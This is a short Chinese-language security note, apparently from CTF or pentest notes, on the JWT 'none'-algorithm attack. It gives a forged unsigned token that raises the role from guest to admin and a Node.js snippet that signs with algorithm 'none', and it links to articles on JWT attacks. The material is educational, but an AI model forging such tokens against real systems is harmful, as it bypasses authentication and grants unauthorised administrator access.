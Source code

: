 # 空加密

## 示例 1

admin admin 登陆 jwt 值为

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiIsInJvbGUiOiJndWVzdCJ9.1tg4f5ZwANJCK8gAzI1gL1-yGoB4DS8OXQDKXJRd-YU
```

格式为 `[算法].[Payload].[签名]`

| 修改前                                                 | 修改后                                                 |
| ------------------------------------------------------ | ------------------------------------------------------ |
| {"typ":"JWT","alg":"HS256"}                            | {"typ":"JWT","alg":`"none"`}                             |
| {"username":"admin","password":"admin","role":"guest"} | {"username":"admin","password":"admin","role":`"admin"`} |

算法替换为 "none", 然后转换回base64, 可以丢掉签名。

`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiIsInJvbGUiOiJhZG1pbiJ9.`

## 示例 2

nodejs 中的 jwt 库在签名时用 algorithm 指定算法，而在验签时用 algorithms 指定算法
在测试 jwt 相关的安全问题时可以使用 burpsuite 的 JOSEPH 插件辅助测试

```ts
// https://www.secpulse.com/archives/129304.html
// https://blog.csdn.net/miuzzx/article/details/127744431#t1
const jwt = require("jsonwebtoken")

var payload = {
  secretid: [],
  username: "admin"
}
var token = jwt.sign(payload, undefined, { algorithm: "none" })
console.log(token)
```

# Article

[浅析 JWT Attack](https://mp.weixin.qq.com/s/WvVgavjJMXSZQsVFtHEOhA)
[JWT 相关题目刷题](https://mp.weixin.qq.com/s/Ss9Oc2ZN7qFboBWaXfrDLA)
[『红蓝对抗』JWT 攻击手法](https://mp.weixin.qq.com/s/OVppZClKRWP8zNEBjZPRow)
[JWT 攻击手法——1](https://mp.weixin.qq.com/s/kkoskD6d69G59bRK8nyUdw)
[API | JWT渗透姿势](https://mp.weixin.qq.com/s/1e94h4NFiIbVDMiIXtjgGQ)
[揭示JWT开放标准的认证安全问题](https://mp.weixin.qq.com/s/sUWKlmCFJn8cuZgjcbJANg)
